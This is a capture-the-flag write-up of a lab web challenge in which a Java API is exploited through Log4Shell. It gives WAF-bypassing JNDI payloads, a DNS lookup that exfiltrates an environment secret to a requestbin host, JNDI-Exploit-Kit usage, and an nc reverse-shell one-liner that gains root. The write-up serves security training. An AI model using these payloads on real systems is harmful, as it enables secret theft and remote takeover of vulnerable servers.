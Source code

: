 # WEB - (not so) smart API (write-up)

## Context / text for challengers

You are mandated by Smart Transport & Logistics to test the latest API for their web service.
One of these API points is used to obtain the access code to a storage facility. Recently, several thefts have occurred in this storage facility.

Discover the method used and get the access code to the warehouse (the flag).

Note: It is not necessary to have remote command execution to get the flag.

## Challenge Write-up

### Discovery of API endpoint

The root of the webservice lead to a `Whitelabel` error :

![Whitelabel error](./images/whitelabel_error.png "Whitelabel error")

Then, we perfom directories and files enumeration with `dirsearch`:
```bash
$ python3 ~/tools/dirsearch/dirsearch.py -u http://127.0.0.1/

  _|. _ _  _  _  _ _|_    v0.4.2.1                                                           
 (_||| _) (/_(_|| (_| )                                                                      
                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11305

Output File: /home/kali/tools/dirsearch/reports/127.0.0.1/-_22-06-17_14-10-47.txt

Log File: /home/kali/tools/dirsearch/logs/last_scan.log

Target: http://127.0.0.1/

[14:10:47] Starting:                                                                         
[14:10:58] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[14:10:59] 400 -  435B  - /a%5c.aspx                                        
[14:11:09] 200 -   24B  - /api/                                             
[14:11:09] 200 -    2KB - /api/swagger.json                                 
[14:11:19] 500 -   73B  - /error                                            
[14:11:19] 500 -   73B  - /error/                                           
                                                                             
Task Completed
```

We discovered the API path and a swagger file describing the endpoints:
- /api/facility : return the acccess code to storage facility, this is what we want to solve the challenge, but according to swagger file, endpoint is protected with a API key. We still learn that the password is stored in `ACCESS_KEY` environnment variable and should be provide in `X-API-Key` header;
- /api/check : check identity based on surname et name.

### Identify the vulnerability

We test to send correct data to /api/check endpoint :
```
$ curl 127.0.0.1:80/api/check -X POST --data "prenom=test&nom=test"
Your are not wanted by Interpol, but just in case we will Log your identity
```

They **Log** the user input, let's try Log4Shell!

To detect Log4Shell, we use the dns URI and the site https://requestbin.net/ to log DNS request.

```bash
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${jndi:dns://detect.8t10tjgitagq8j87.b.requestbin.net}&nom=test'
Attack detected!
```

A sort of WAF or filtering is blocking our request, we can bypass it : `curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:d${lower:n}s${env:XXXXUXXX:-:}//detect.8t10tjgitagq8j87.b.requestbin.net}&nom=test'`

Our DNS endpoint give us a respond:

![DNS request](./images/detect_log4shell.png "DNS request on requestbin.net")

### Exploit Log4Shell - Method 1

This first method does not require the usage of LDAP URI, so the challengers wont need to expose a LDAP and Web server to exploit it. Only a DNS endpoint, like for the detection part, is needed. DNS protocol should be allow in output for the app.

We use DNS URI and `${env:ENV_VAR}` to exfiltrate environnement variable `ACCESS_KEY` like describe in `swagger.json`, then reuse the obtained password in base 64 in `X-API-key` to obtain the flag!

```bash
# DNS endpoint receive the value of the environnement variable ACCESS_KEY
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:d${lower:n}s${env:XXXXUXXX:-:}//${env:ACCESS_KEY}.8t10tjgitagq8j87.b.requestbin.net}&nom=test'
# check result : https://requestbin.net/bins/view/06c4ec51bf8e56cac83dbddb664452e606c5b3ac
# We reuse the access key encoded in base 64 to obtain the password:
$ curl 127.0.0.1:80/api/facility -H 'X-API-Key: TEVfQ09OVEVYVEVfRVNUX0lOVEVSRVNTQU5U'
Here is you flight number, enjoy your trip : ECW{Il_000_faudra_changer_ce_flag}
```

### Exploit Log4Shell - Method 2

This second method is a using the Log4Shell vulnerability to obtain remote command execution on the system. Prerequire for this 2nd method is to expose at least 3 ports witch the vulnerable application can reach:
- TCP/1389 : port used by the JNDI-Exploit-kit to expose the ldap server
- TCP/8180 : port used by the JNDI-Exploit-kit to expose the web server
- TCP/xxxx : any port for the reverse connection

Use https://github.com/pimps/JNDI-Exploit-Kit to exploit

```bash
# dl exploit
$ git clone https://github.com/pimps/JNDI-Exploit-Kit.git
# Start JNDI-Exploiy-Kit to have a server and getting return from app (dumy command for test)
$ java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'id > /tmp/was_here'
# test
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/a}&nom=test'
# getting Java version
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/${java:version}}&nom=test'
# result in the JNDI-Exploit-Kit server :
2022-06-21 13:54:06 [LDAPSERVER] >> Reference that matches the name(Java version 1.8.0_181) is not found.
```

We want code execution but the JNDI-Exploit-Kit is using `/bin/bash` binary, but the vulnerable appplication use only `/bin/sh`. So we need to modify the exploit to make the `-C` option working:
```java
//Transformers.java, ligne 125
        	mv.visitLdcInsn("/bin/bash"); // /bin/bash -> /bin/sh
```

Then recompile the exploit:
```bash
# Install maven before
sudo apt -y install maven
# compile
cd JNDI-Injection-Exploit
mvn clean package -DskipTests
```

Finaly exploit the app to execute command on system:
```bash
# Setup listener
$ nc -lnvp 9001             
listening on [any] 9001 ...
# Start JNDI-Exploit-Kit to exec a reverse shell
$ cd JNDI-Exploit-Kit
$ java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.0.1 9001 >/tmp/f'
```

Find the JNDI link macthing our correct JDK version (here 1.8):

![JNDI-Exploit-kit execution](./images/start_jndi_exploit.png "JNDI-Exploit-kit execution")

```bash
# Send payload to app according (modif)
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/sxlrgt}&nom=test'
# From the reverse shell terminal : 
listening on [any] 9001 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43749
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # ls
app
bin
dev
etc
flag.txt
...
/ # cat flag.txt
ECW{XXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
